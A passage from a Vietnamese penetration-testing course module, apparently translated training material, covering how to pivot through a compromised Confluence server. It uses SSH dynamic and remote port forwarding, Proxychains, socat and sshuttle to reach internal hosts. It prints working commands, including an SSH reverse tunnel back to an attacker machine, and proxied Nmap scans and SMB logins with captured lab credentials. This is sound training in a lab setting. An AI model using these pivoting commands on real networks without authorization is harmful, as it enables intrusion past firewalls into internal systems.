*Cũng như trước, nếu muốn kiểm tra thủ công rằng cổng 9999 đang lắng nghe trên CONFLUENCE01, chúng ta cần khai thác lại lỗ hổng Confluence để lấy một reverse shell khác (vì shell hiện tại đang bị chiếm bởi lệnh SSH port forward), sau đó chạy lệnh `ss` trong shell đó.*

Tiếp theo, chúng ta sẽ kết nối đến cổng 445 trên HRSHARES. Tuy nhiên, lần này chúng ta sẽ thực hiện thông qua **cổng SOCKS proxy** được tạo bởi lệnh SSH dynamic port forward.

Để làm điều này, chúng ta tiếp tục sử dụng `smbclient`. Tuy nhiên, ta nhận thấy rằng `smbclient` **không cung cấp tùy chọn native để sử dụng SOCKS proxy**. Vì không có tùy chọn SOCKS proxy mặc định, chúng ta không thể tận dụng dynamic port forward trực tiếp. SOCKS proxy không thể xác định cách xử lý traffic **nếu traffic đó không được đóng gói theo định dạng SOCKS**.

Để sử dụng `smbclient` trong tình huống này, chúng ta sẽ sử dụng **Proxychains**. Proxychains là một công cụ cho phép ép traffic mạng từ các công cụ bên thứ ba đi qua HTTP hoặc SOCKS proxy. Như tên gọi của nó, Proxychains cũng có thể được cấu hình để đẩy traffic qua **chuỗi nhiều proxy liên tiếp**.

*Cách Proxychains hoạt động là một dạng “hack nhẹ”. Nó sử dụng kỹ thuật **LD_PRELOAD** (preload shared object của Linux) để hook các hàm networking của libc trong binary được truyền vào, và ép tất cả các kết nối đi qua proxy đã cấu hình. Điều này có nghĩa là nó **không hoạt động với mọi thứ**, nhưng sẽ hoạt động với **đa số các binary được liên kết động** thực hiện các thao tác mạng đơn giản. Nó **không hoạt động với binary được liên kết tĩnh (statically-linked)**.*

Hãy thử Proxychains với `smbclient`. Proxychains sử dụng file cấu hình, mặc định nằm tại `/etc/proxychains4.conf`. Chúng ta cần chỉnh sửa file này để đảm bảo Proxychains biết được vị trí cổng SOCKS proxy của chúng ta, và xác nhận rằng đó là **SOCKS proxy** (không phải loại proxy khác). Theo mặc định, các proxy được định nghĩa ở cuối file. Chúng ta có thể thay thế bất kỳ proxy nào hiện có bằng một dòng duy nhất, định nghĩa loại proxy, địa chỉ IP và cổng của SOCKS proxy đang chạy trên CONFLUENCE01 (`socks5 192.168.50.63 9999`).

*Mặc dù ví dụ này sử dụng `socks5`, chúng ta cũng có thể dùng `socks4`, vì SSH hỗ trợ cả hai. SOCKS5 hỗ trợ xác thực, IPv6 và UDP, bao gồm cả DNS. Một số SOCKS proxy chỉ hỗ trợ SOCKS4. Khi sử dụng SOCKS proxy trong các bài kiểm thử thực tế, hãy luôn kiểm tra phiên bản SOCKS được hỗ trợ.*

Sau khi chỉnh sửa, file sẽ trông như sau:

```
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999
```

Với Proxychains đã được cấu hình, chúng ta có thể liệt kê các share trên HRSHARES bằng `smbclient` từ máy Kali. Thay vì kết nối đến cổng trên CONFLUENCE01, chúng ta sẽ viết lệnh `smbclient` **như thể đang kết nối trực tiếp đến HRSHARES**. Tương tự như trước, ta sử dụng `-L` để liệt kê share, `-U` để chỉ định username và `--password` để chỉ định mật khẩu.

Sau đó, chỉ cần **prepend `proxychains`** vào trước lệnh. Proxychains sẽ đọc file cấu hình, hook vào tiến trình `smbclient`, và ép toàn bộ traffic đi qua SOCKS proxy đã chỉ định.

```
kali@kali:~$ proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:445  ...  OK

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
		    scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:139  ...  OK
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:139  ...  OK
do_connect: Connection to 172.16.50.217 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
kali@kali:~$ 
```

Kết nối thành công. Chúng ta đã kết nối được đến HRSHARES và liệt kê các share của nó, bao gồm một thư mục đáng chú ý có tên là `scripts`. Proxychains cũng cung cấp thêm output, cho biết các cổng đã được tương tác trong quá trình chạy.

Tiếp theo, chúng ta nâng cấp mức độ tấn công bằng cách **quét cổng HRSHARES thông qua SOCKS proxy bằng Nmap**. Chúng ta sử dụng quét TCP connect (`-sT`), bỏ qua DNS (`-n`), bỏ qua giai đoạn host discovery (`-Pn`) và chỉ quét 20 cổng phổ biến nhất (`--top-ports=20`). Sau đó, chúng ta tiếp tục prepend `proxychains` để đẩy toàn bộ traffic qua SSH dynamic port forward SOCKS proxy, đồng thời tăng độ chi tiết với `-vvv`.

*Mặc dù Nmap có tùy chọn `--proxies`, theo tài liệu của chính nó, tính năng này “vẫn đang trong quá trình phát triển” và **không phù hợp cho việc quét cổng**, vì vậy trong ví dụ này chúng ta vẫn sử dụng Proxychains.*

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-20 17:26 EDT
Initiating Parallel DNS resolution of 1 host. at 17:26
Completed Parallel DNS resolution of 1 host. at 17:26, 0.09s elapsed
DNS resolution of 1 IPs took 0.10s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 17:26
Scanning 172.16.50.217 [20 ports]
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:111 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:22 <--socket error or timeout!
...
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:5900 <--socket error or timeout!
Completed Connect Scan at 17:30, 244.33s elapsed (20 total ports)
Nmap scan report for 172.16.50.217
Host is up, received user-set (9.0s latency).
Scanned at 2022-08-20 17:26:47 EDT for 244s

PORT     STATE  SERVICE       REASON
21/tcp   closed ftp           conn-refused
22/tcp   closed ssh           conn-refused
23/tcp   closed telnet        conn-refused
25/tcp   closed smtp          conn-refused
53/tcp   closed domain        conn-refused
80/tcp   closed http          conn-refused
110/tcp  closed pop3          conn-refused
111/tcp  closed rpcbind       conn-refused
135/tcp  open   msrpc         syn-ack
139/tcp  open   netbios-ssn   syn-ack
143/tcp  closed imap          conn-refused
443/tcp  closed https         conn-refused
445/tcp  open   microsoft-ds  syn-ack
993/tcp  closed imaps         conn-refused
995/tcp  closed pop3s         conn-refused
1723/tcp closed pptp          conn-refused
3306/tcp closed mysql         conn-refused
3389/tcp open   ms-wbt-server syn-ack
5900/tcp closed vnc           conn-refused
8080/tcp closed http-proxy    conn-refused

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 244.62 seconds
```

Quét thành công. Proxychains cho chúng ta thấy chi tiết từng socket đã được thử kết nối, và nếu kết nối thất bại thì lý do là gì. Nmap phát hiện các cổng TCP 135, 139, 445 và 3389 đang mở.

*Theo mặc định, Proxychains được cấu hình với giá trị timeout rất cao, điều này khiến việc quét cổng trở nên chậm. Việc giảm các giá trị `tcp_read_time_out` và `tcp_connect_time_out` trong file cấu hình Proxychains sẽ buộc Proxychains timeout nhanh hơn với các kết nối không phản hồi, từ đó **tăng tốc đáng kể quá trình quét cổng**.*

Trong mục này, chúng ta đã thiết lập SSH dynamic port forward và sử dụng Proxychains để đẩy traffic từ cả `smbclient` lẫn Nmap qua cổng SOCKS proxy được tạo. Nhờ đó, chúng ta đã liệt kê được các share và quét cổng thành công trên HRSHARES.

---

## 3.3. SSH Remote Port Forwarding

---

Trong các ví dụ cho đến nay, chúng ta có thể kết nối tới bất kỳ cổng nào mà ta bind trên giao diện WAN của CONFLUENCE01. Điều này khó khăn hơn trong thực tế vì, thường xuyên hơn không, các tường lửa - cả phần cứng lẫn phần mềm - sẽ cản trở. Lưu lượng vào (inbound) thường được kiểm soát gắt gao hơn nhiều so với lưu lượng ra (outbound). Chỉ trong những trường hợp hiếm hoi chúng ta mới chiếm được thông tin xác thực của một người dùng SSH, cho phép SSH trực tiếp vào một mạng và thực hiện port forwarding. Chúng ta cũng rất hiếm khi có thể truy cập các cổng mà ta bind tại vành đai mạng.

Tuy nhiên, chúng ta sẽ thường xuyên có khả năng SSH ra khỏi một mạng. Các kết nối outbound khó kiểm soát hơn so với inbound. Hầu hết các mạng doanh nghiệp sẽ cho phép nhiều loại lưu lượng mạng phổ biến đi ra ngoài - bao gồm cả SSH - vì lý do đơn giản hóa, khả năng sử dụng và nhu cầu kinh doanh. Do đó, mặc dù rất có thể chúng ta không thể kết nối tới một cổng mà ta bind ở vành đai mạng, nhưng thường thì chúng ta có thể SSH ra ngoài.

Đây là lúc **SSH remote port forwarding** trở nên cực kỳ hữu ích. Tương tự như cách kẻ tấn công có thể thực thi một payload remote shell để kết nối ngược về một listener do kẻ tấn công kiểm soát, SSH remote port forwarding có thể được sử dụng để kết nối ngược về một SSH server do kẻ tấn công kiểm soát và bind cổng lắng nghe tại đó. Chúng ta có thể hình dung nó như một reverse shell, nhưng dành cho port forwarding.

Trong local và dynamic port forwarding, cổng lắng nghe được bind ở phía SSH client; còn trong remote port forwarding, cổng lắng nghe được bind ở phía SSH server. Thay vì việc chuyển tiếp gói tin được thực hiện bởi SSH server, trong remote port forwarding, các gói tin được chuyển tiếp bởi SSH client.

Hãy xem xét lại kịch bản phòng lab của chúng ta và lùi lại một bước nhỏ.

Như trước, chúng ta xâm nhập CONFLUENCE01 bằng CVE-2022-26134. Tuy nhiên, trong kịch bản này, các quản trị viên đã quyết định cải thiện an ninh mạng bằng cách triển khai một tường lửa ở vành đai. Tường lửa được cấu hình sao cho, bất kể chúng ta có bind một cổng trên giao diện WAN của CONFLUENCE01 hay không, cổng duy nhất chúng ta có thể kết nối từ máy Kali là TCP 8090.

Như đã làm trong phần Socat, chúng ta muốn enumerate cơ sở dữ liệu PostgreSQL đang chạy trên cổng 5432 của PGDATABASE01. CONFLUENCE01 không có các công cụ để thực hiện việc này. Do có tường lửa, chúng ta không thể tạo bất kỳ port forward nào yêu cầu mở cổng lắng nghe trên CONFLUENCE01.

Tuy nhiên, CONFLUENCE01 có một SSH client, và chúng ta có thể thiết lập một SSH server trên máy Kali. Chúng ta có thể tạo một thiết lập port forwarding tương tự như sơ đồ sau:


                                                ***Hình 8: Thiết lập SSH remote port forward***

Chúng ta có thể kết nối từ CONFLUENCE01 tới máy Kali qua SSH. Cổng TCP lắng nghe 2345 được bind vào giao diện loopback trên máy Kali. Các gói tin gửi tới cổng này sẽ được phần mềm SSH server trên Kali đẩy qua đường hầm SSH trở lại SSH client trên CONFLUENCE01. Sau đó, chúng được chuyển tiếp tới cổng cơ sở dữ liệu PostgreSQL trên PGDATABASE01.

Hãy thiết lập điều này trong phòng lab. Trước tiên, chúng ta cần bật SSH server trên máy Kali. OpenSSH server đã được cài sẵn - tất cả những gì cần làm là khởi động nó.

*Trước khi khởi động Kali SSH server, hãy đảm bảo bạn đã đặt một mật khẩu mạnh và duy nhất cho người dùng Kali!*

```
kali@kali:~$ sudo systemctl start ssh
[sudo] password for kali: 
```

                                         ***Listing 28 - Khởi động SSH server trên máy Kali.***

Chúng ta có thể kiểm tra rằng cổng SSH đã mở như mong đợi bằng cách sử dụng `ss`.

```
kali@kali:~$ sudo ss -ntplu 
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN 0      128             [::]:22           [::]:*     users:(("sshd",pid=181432,fd=4))
```

                              ***Listing 29 - Kiểm tra SSH server trên máy Kali đang lắng nghe.***

SSH server đang lắng nghe trên cổng 22 ở tất cả các giao diện cho cả IPv4 và IPv6.

Khi chúng ta có một reverse shell từ CONFLUENCE01, hãy đảm bảo có một TTY shell, sau đó tạo một SSH remote port forward như một phần của kết nối SSH quay lại máy Kali.

*Để kết nối ngược về Kali SSH server bằng tên người dùng và mật khẩu, bạn có thể phải cho phép tường minh xác thực dựa trên mật khẩu bằng cách đặt `PasswordAuthentication` thành `yes` trong `/etc/ssh/sshd_config`.*

Tùy chọn SSH remote port forward là `-R`, và có cú pháp rất giống với tùy chọn local port forward. Nó cũng nhận hai cặp socket làm đối số. Socket lắng nghe được định nghĩa trước, và socket chuyển tiếp là thứ hai.

Trong trường hợp này, chúng ta muốn lắng nghe trên cổng 2345 trên máy Kali (127.0.0.1:2345), và chuyển tiếp toàn bộ lưu lượng tới cổng PostgreSQL trên PGDATABASE01 (10.4.50.215:5432).

```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
< 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```

                           ***Listing 30 - Thiết lập SSH remote port forward, kết nối tới máy Kali.***

Kết nối SSH quay lại máy Kali của chúng ta đã thành công.

Chúng ta có thể xác nhận rằng cổng remote port forward đang lắng nghe bằng cách kiểm tra xem cổng 2345 có mở trên giao diện loopback của Kali hay không.

```
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      128        127.0.0.1:2345      0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
```

                ***Listing 31 - Kiểm tra xem cổng 2345 có được bind trên Kali SSH server hay không.***

Có! Port forward của chúng ta giờ đã được thiết lập đúng như dự định, với lệnh SSH port forward đang chạy trên CONFLUENCE01.


**Hình 9: Lệnh SSH remote port forward đang chạy**

Giờ đây, chúng ta có thể bắt đầu thăm dò cổng 2345 trên giao diện loopback của máy Kali, như thể chúng ta đang thăm dò trực tiếp cổng cơ sở dữ liệu PostgreSQL trên PGDATABASE01. Trên máy Kali, chúng ta sẽ sử dụng `psql`, truyền `127.0.0.1` làm host (`-h`), `2345` làm cổng (`-p`), và sử dụng thông tin xác thực cơ sở dữ liệu của người dùng `postgres` (`-U`) mà chúng ta đã tìm thấy trước đó trên CONFLUENCE01.

```
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```

***Listing 32 - Liệt kê các cơ sở dữ liệu trên PGDATABASE01, sử dụng psql thông qua SSH remote port forward.***

Thành công! Giờ chúng ta đang tương tác với instance PostgreSQL đang chạy trên PGDATABASE01 thông qua SSH remote port forward bằng cách kết nối tới cổng 2345 trên chính máy Kali của mình.

Trong phần này, chúng ta đã tạo một SSH remote port forward để cho phép kết nối tới một máy chủ cơ sở dữ liệu nội bộ từ máy Kali. Chúng ta đã làm điều này khi băng qua một tường lửa vành đai, vốn nếu không thì sẽ chặn các kết nối inbound.

---

## 3.4. SSH Remote Dynamic Port Forwarding

---

Với remote port forwarding, chúng ta có thể chuyển tiếp các gói tin tới một socket cho mỗi kết nối SSH. Tuy nhiên, giống như những gì chúng ta đã thấy với local port forwarding, hạn chế một socket cho mỗi kết nối này có thể làm chậm tiến độ của chúng ta. Trong quá trình tấn công mạng, đặc biệt là ở giai đoạn enumeration, chúng ta thường cần nhiều sự linh hoạt hơn.

May mắn thay, **remote dynamic port forwarding** có thể cung cấp sự linh hoạt này. Đúng như tên gọi, remote dynamic port forwarding tạo ra một dynamic port forward trong cấu hình remote. Cổng SOCKS proxy được bind ở phía SSH server, và lưu lượng được chuyển tiếp từ SSH client.

Để hình dung mức độ hữu ích của kỹ thuật này, hãy áp dụng nó vào kịch bản trước đó của chúng ta. Sơ đồ sau minh họa cách bố cục mạng sẽ được cải thiện như thế nào nếu chúng ta áp dụng remote dynamic port forwarding cho kịch bản remote port forwarding.


    ***Hình 10: Bố cục SSH remote dynamic port forward áp dụng cho kịch bản remote port forward***

Nó linh hoạt hơn rất nhiều. Đột nhiên, chúng ta có thể kết nối tới các cổng và các host khác thông qua cùng một kết nối.

Remote dynamic port forwarding chỉ là một biến thể khác của dynamic port forwarding, vì vậy chúng ta có được toàn bộ sự linh hoạt của dynamic port forwarding truyền thống, đồng thời tận dụng các lợi ích của cấu hình remote. Chúng ta có thể kết nối tới bất kỳ cổng nào trên bất kỳ host nào mà CONFLUENCE01 có quyền truy cập bằng cách gửi các gói tin định dạng SOCKS thông qua cổng SOCKS proxy được bind trên máy Kali của chúng ta.

*Remote dynamic port forwarding chỉ mới khả dụng kể từ OpenSSH 7.6, phát hành vào tháng 10 năm 2017. Mặc dù vậy, chỉ cần OpenSSH client có phiên bản 7.6 trở lên để sử dụng tính năng này - phiên bản server không quan trọng.*

Hãy mở rộng kịch bản của chúng ta một lần nữa. Lần này, chúng ta phát hiện một máy chủ Windows (MULTISERVER03) trên mạng DMZ. Tường lửa ngăn chúng ta kết nối tới bất kỳ cổng nào trên MULTISERVER03, hoặc bất kỳ cổng nào khác ngoài TCP/8090 trên CONFLUENCE01 từ máy Kali. Tuy nhiên, chúng ta có thể SSH ra ngoài từ CONFLUENCE01 tới máy Kali, sau đó tạo một remote dynamic port forward để bắt đầu enumerate MULTISERVER03 từ Kali.

Khi đã kết nối, mạng của chúng ta sẽ được tổ chức tương tự như sơ đồ sau:


                ***Hình 11: Thiết lập SSH remote dynamic port forward mà chúng ta hướng tới***

Phiên SSH được khởi tạo từ CONFLUENCE01, kết nối tới máy Kali đang chạy SSH server. Sau đó, cổng SOCKS proxy được bind trên máy Kali tại TCP/9998. Các gói tin gửi tới cổng này sẽ được đẩy ngược qua đường hầm SSH về CONFLUENCE01, nơi chúng sẽ được chuyển tiếp dựa trên địa chỉ đích - trong trường hợp này là MULTISERVER03.

Để minh họa chính xác mức độ hữu ích của remote dynamic port forwarding, hãy thiết lập một ví dụ trong phòng lab. Khi đã có một reverse shell từ CONFLUENCE01, đã spawn một TTY shell bên trong nó, và đã bật SSH trên máy Kali, chúng ta có thể bắt đầu xây dựng lệnh remote dynamic port forwarding.

Lệnh remote dynamic port forwarding tương đối đơn giản, mặc dù (hơi gây nhầm lẫn) nó sử dụng cùng tùy chọn `-R` như remote port forwarding cổ điển. Điểm khác biệt là khi chúng ta muốn tạo một remote dynamic port forward, chúng ta chỉ truyền vào một socket: socket mà chúng ta muốn lắng nghe trên SSH server. Chúng ta thậm chí không cần chỉ định địa chỉ IP; nếu chỉ truyền một cổng, mặc định nó sẽ được bind vào giao diện loopback của SSH server.

Để bind SOCKS proxy vào cổng 9998 trên giao diện loopback của máy Kali, chúng ta chỉ cần chỉ định `-R 9998` trong lệnh SSH chạy trên CONFLUENCE01. Chúng ta cũng sẽ truyền thêm cờ `-N` để ngăn không cho một shell được mở.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4
<n/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```

                 ***Listing 33 - Thiết lập kết nối SSH với tùy chọn remote dynamic port forwarding.***

Quay lại máy Kali, chúng ta có thể kiểm tra rằng cổng 9998 đã được bind bằng cách sử dụng `ss`.

```
kali@kali:~$ sudo ss -ntplu
Netid State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process
tcp   LISTEN  0       128          127.0.0.1:9998        0.0.0.0:*     users:(("sshd",pid=939038,fd=9))
tcp   LISTEN  0       128            0.0.0.0:22          0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN  0       128              [::1]:9998           [::]:*     users:(("sshd",pid=939038,fd=7))
tcp   LISTEN  0       128               [::]:22             [::]:*     users:(("sshd",pid=181432,fd=4))
```

          ***Listing 34 - Cổng 9998 được bind trên cả giao diện loopback IPv4 và IPv6 của máy Kali.***

Cổng SOCKS proxy đã được bind trên cả giao diện loopback IPv4 và IPv6 của máy Kali. Chúng ta đã sẵn sàng để sử dụng nó!

Giống như trong ví dụ dynamic port forwarding cổ điển, chúng ta có thể sử dụng Proxychains để tunnel lưu lượng qua cổng SOCKS proxy này. Chúng ta sẽ chỉnh sửa file cấu hình Proxychains tại `/etc/proxychains4.conf` trên máy Kali để phản ánh cổng SOCKS proxy cục bộ mới.

```
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```

      ***Listing 35 - Chỉnh sửa file cấu hình Proxychains để trỏ tới SOCKS proxy mới trên cổng 9998.***

Sau đó, chúng ta có thể chạy nmap với proxychains như đã làm trước đây, lần này là nhắm tới MULTISERVER03.

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 06:25 EDT
Initiating Connect Scan at 06:25
Scanning 10.4.50.64 [20 ports]
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.64:22 <--socket error or timeout!
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.64:135  ...  OK
Discovered open port 135/tcp on 10.4.50.64
Completed Connect Scan at 06:28, 210.26s elapsed (20 total ports)
Nmap scan report for 10.4.50.64
Host is up, received user-set (6.7s latency).
Scanned at 2022-07-20 06:25:25 EDT for 210s

PORT     STATE  SERVICE       REASON
21/tcp   closed ftp           conn-refused
22/tcp   closed ssh           conn-refused
23/tcp   closed telnet        conn-refused
25/tcp   closed smtp          conn-refused
53/tcp   closed domain        conn-refused
80/tcp   open   http          syn-ack
110/tcp  closed pop3          conn-refused
111/tcp  closed rpcbind       conn-refused
135/tcp  open   msrpc         syn-ack
139/tcp  closed netbios-ssn   conn-refused
143/tcp  closed imap          conn-refused
443/tcp  closed https         conn-refused
445/tcp  closed microsoft-ds  conn-refused
993/tcp  closed imaps         conn-refused
995/tcp  closed pop3s         conn-refused
1723/tcp closed pptp          conn-refused
3306/tcp closed mysql         conn-refused
3389/tcp open   ms-wbt-server syn-ack
5900/tcp closed vnc           conn-refused
8080/tcp closed http-proxy    conn-refused

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 210.31 seconds
```

      ***Listing 36 - Quét MULTISERVER03 thông qua cổng SOCKS remote dynamic với Proxychains.***

Sau vài phút, chúng ta nhận được kết quả và phát hiện các cổng 80, 135 và 3389 đang mở.

*Việc quét trên host Windows này chậm hơn một chút - có thể là do cách tường lửa Windows phản hồi khi một cổng bị đóng khác với Linux.*

Trong phần này, chúng ta đã sử dụng SSH remote dynamic port forwarding để mở một cổng SOCKS proxy trên máy Kali bằng cách khởi tạo một kết nối SSH từ một host bị xâm nhập từ xa. Sau đó, chúng ta sử dụng Proxychains để quét cổng một host trong mạng nội bộ thông qua cổng SOCKS proxy này.

---

## 3.5. Sử dụng sshuttle

---

Trong những tình huống mà chúng ta có quyền truy cập trực tiếp vào một SSH server, phía sau đó là một mạng nội bộ phức tạp hơn, dynamic port forwarding cổ điển có thể trở nên khó quản lý. **sshuttle** là một công cụ biến một kết nối SSH thành thứ gì đó tương tự như VPN bằng cách thiết lập các route cục bộ, buộc lưu lượng đi qua đường hầm SSH. Tuy nhiên, nó yêu cầu quyền root trên SSH client và Python3 trên SSH server, vì vậy không phải lúc nào cũng là lựa chọn nhẹ nhất. Dẫu vậy, trong kịch bản phù hợp, nó có thể rất hữu ích.

Trong môi trường lab của chúng ta, chúng ta có quyền truy cập SSH vào PGDATABASE01, mà chúng ta có thể truy cập thông qua một port forward được thiết lập trên CONFLUENCE01. Hãy chạy sshuttle thông qua thiết lập này để quan sát khả năng của nó.

Đầu tiên, chúng ta có thể thiết lập một port forward trong một shell trên CONFLUENCE01, lắng nghe trên cổng 2222 ở giao diện WAN và chuyển tiếp tới cổng 22 trên PGDATABASE01.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
</bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22   
```

      ***Listing 37 - Chuyển tiếp cổng 2222 trên CONFLUENCE01 tới cổng 22 trên PGDATABASE01.***

Tiếp theo, chúng ta có thể chạy sshuttle, chỉ định chuỗi kết nối SSH mà chúng ta muốn sử dụng, cũng như các subnet mà chúng ta muốn tunnel thông qua kết nối này (10.4.50.0/24 và 172.16.50.0/24).

```
kali@kali:~$ sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
[local sudo] Password: 

database_admin@192.168.50.63's password: 

c : Connected to server.
Failed to flush caches: Unit dbus-org.freedesktop.resolve1.service not found.
fw: Received non-zero return code 1 when flushing DNS resolver cache.
```

            ***Listing 38 - Chạy sshuttle từ máy Kali, trỏ tới cổng forward trên CONFLUENCE01.***

Mặc dù chúng ta không nhận được nhiều đầu ra từ sshuttle, nhưng về mặt lý thuyết, nó đã thiết lập định tuyến trên máy Kali sao cho mọi yêu cầu mà chúng ta gửi tới các host trong những subnet đã chỉ định sẽ được đẩy một cách minh bạch qua kết nối SSH. Hãy kiểm tra xem điều này có hoạt động hay không bằng cách thử kết nối tới SMB share trên HRSHARES trong một terminal mới.

```
kali@kali:~$ smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        scripts         Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 172.16.50.217 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

kali@kali:~$
```

 ***Listing 39 - Kết nối tới SMB share trên HRSHARES, không cần bất kỳ forwarding tường minh nào.***

Tuyệt vời! Giờ đây chúng ta đang kết nối tới HRSHARES một cách minh bạch, như thể chúng ta đang ở cùng mạng và có quyền truy cập trực tiếp.

Trong phần này, chúng ta đã sử dụng sshuttle để tạo ra một môi trường giống như VPN. Sau đó, chúng ta có thể kết nối một cách minh bạch tới HRSHARES từ máy Kali, như thể chúng ta đang ở cùng mạng với PGDATABASE01.

---

# 4. Port Forwarding với các công cụ Windows

---

Learning Unit này bao gồm các Learning Objective sau:

- Sử dụng `ssh.exe` và Plink để tạo port forward trên Windows
- Hiểu về port forwarding với Netsh

Cho đến thời điểm này trong Module, chúng ta đã thảo luận về cơ chế chuyển hướng cổng và tunneling bằng các công cụ dựa trên Linux. Tuy nhiên, trong các mạng lớn, chúng ta thường xuyên sẽ gặp các host Windows, và những host này cũng yêu cầu chúng ta phải áp dụng các chiến lược port forwarding. May mắn thay, có nhiều cách để thực hiện port forwarding và tunneling trên Windows, và một vài trong số đó sẽ được đề cập trong Learning Unit này.

---

## **4.1. ssh.exe**

---

